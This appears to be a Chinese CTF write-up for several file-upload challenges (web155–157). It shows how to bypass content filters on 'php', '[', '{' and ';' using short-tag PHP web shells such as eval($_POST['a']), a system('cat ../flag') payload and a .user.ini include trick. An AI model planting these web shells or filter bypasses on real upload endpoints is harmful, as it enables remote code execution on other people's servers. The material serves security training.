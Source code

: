 ```
文件上传失败，失败原因：文件内容不合规
```

猜测可能是拦截了 php 字符串。那么我们删掉他试试，果然上传成功。

那么我们呢绕过就可以了。

```php
<? echo '123';?>          # 不可
    
<?=eval($_POST['a']);?>

<script language="php">eval($_POST['a']);</script>   # 不可用
```

## web155~文件内容过滤php

测试正常的 png 图片可以上传。

对图片内容过滤`php`

绕过  `<?=eval($_POST['a']);`

步骤跟上关一样。。。。。

## web156~过滤 php, [

测试，又是文件内容过滤了 `php` .

紧接着发现事情没这么简单，还过滤了`[`  ，这给传参造成了一定的困难。

但是我们可以直接

```php
<?=system('cat ../flag.???');

<?=eval($_POST{'a'});    # 用 {} 代替   []
```

## web157~过滤分号

nginx/1.18.0 (Ubuntu)     PHP/5.6.40

文件名黑名单

经测试，对文件内容过滤了 `php`、`[`、`{` 、 `;` 

上传`.user.ini` 

我们知道 php 最后的语句也可以不加分号的，前提是得有 `?>` 结束标志。

上传 `2.png` 

```
<?=system('ls ../')?>
<?=system('cat ../*')?>
```
